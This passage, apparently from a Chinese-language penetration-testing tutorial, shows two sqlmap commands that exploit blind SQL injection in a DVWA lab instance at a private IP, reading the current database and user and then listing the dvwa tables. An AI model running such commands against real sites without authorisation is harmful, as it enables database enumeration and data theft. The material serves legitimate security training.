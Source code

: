 查看当前使用的数据库与登陆的用户：

```
sqlmap -u "http://192.168.122.102/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=19e123724a6af7960b0838d56a4432bc" -b --current-db --current-user
```

![show-current-db](../imgs/wm_201.png)

我们当前使用的 dvwa，所以我们选择查看 dvwa 数据库中有哪些数据表：

```
sqlmap -u "http://192.168.122.102/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=19e123724a6af7960b0838d56a4432bc" -D dvwa --tables
```

![show-tables](../imgs/wm_202.png)
